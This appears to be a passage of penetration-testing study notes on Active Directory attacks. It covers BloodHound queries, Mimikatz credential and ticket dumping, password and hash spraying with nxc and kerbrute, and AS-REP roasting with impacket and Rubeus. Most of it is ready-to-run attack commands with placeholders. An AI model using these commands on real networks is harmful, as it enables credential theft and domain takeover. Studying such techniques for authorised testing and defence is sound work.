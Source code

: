   - Get all hostnames (for massive internal networks): `./cypher-shell -u neo4j -p {password} 'MATCH (c:Computer) WHERE toLower(c.name) ENDS WITH ".example.domain.tld" RETURN c.name' --format plain | tee hostnames.txt`
- Interesting paths:
  1. Paths to high value targets from owner users (or even paths to other users)
  2. Outbound object control of common groups
  3. Find Workstations where Domain Users can RDP
  4. Find Servers where Domain Users can RDP
  5. Find Computers where Domain Users are Local Admin
  6. Shortest Path to Domain Admins from Owned Principals
  7. List Kerberoastable users
  8. User SPNs (what can certain users access)

## Password Attacks

**Cached Credentials**
- Password hashes stored in Local Security Authority Subsystem Service (LSASS)
- Basically just use Mimikatz as before
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sekurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
	- `sekurlsa::tickets` will show tickets stored in memory
		- We want to steal TGT more than a TGS for overall service access (rather than just one)
- Public Key Infrastructure (PKI)
	- Part of the Active Directory Certificate Service (AD CS), which implements PKI to exchange digital certs between authenticated users and trusted resources
	- Certificate Authority (CA) servers can grant/revoke certificates
		- The private keys used are usually non-exportable, but Mimikatz's `crypto::capi` and `crypto::cng` can take care of that

**Password Spraying**
- Avoiding lockout - `net accounts` will show authentication lockout information
- Using [Spray-Passwords.ps1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1) for password enumeration on Windows side
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admins`
- SMB password spraying
	- `nxc smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
		- This will also show whether the user is an administrator
    	- SMB hash spraying with `nxc smb {IP} -u {users.txt} -H {hashes.txt}`
- Obtaining TGTs
	- Use [kerbrute](https://github.com/ropnop/kerbrute/releases/) - `.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt "{password}"`
	- AS-REP Roasting without credentials, described below

**AS-REP Roasting**
- Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user
- Performing hash cracking after receiving the AS-REP from the KDC
- Performed with `impacket-GetNPUsers` on kali side
	- `impacket-GetNPUsers -dc-ip {dc} -request -outputfile hashes.asreproast {domain}/{username}` (alongside password)
		- With users.txt: `impacket-GetNPUsers {domain}/ -no-pass -usersfile users.txt -dc-ip {IP} | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
	- Hashes can be cracked with Hashcat's 18200
- Performed with [`Rubeus`](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) on Windows side
	- `.\Rubeus.exe asreproast /nowrap`
- This can also be done without a password to find users who don't have Kerberos pre-auth
	- `impacket-GetNPUsers -dc-ip {IP} {domain}/`
	- These users don't require a password to grab the TGT hash
- **CVE-2022-33679 - exploiting RC4 keys**
  - MITM exploit to downgrade a client's encryption to RC4-md4 cypher, then cracking cypher's key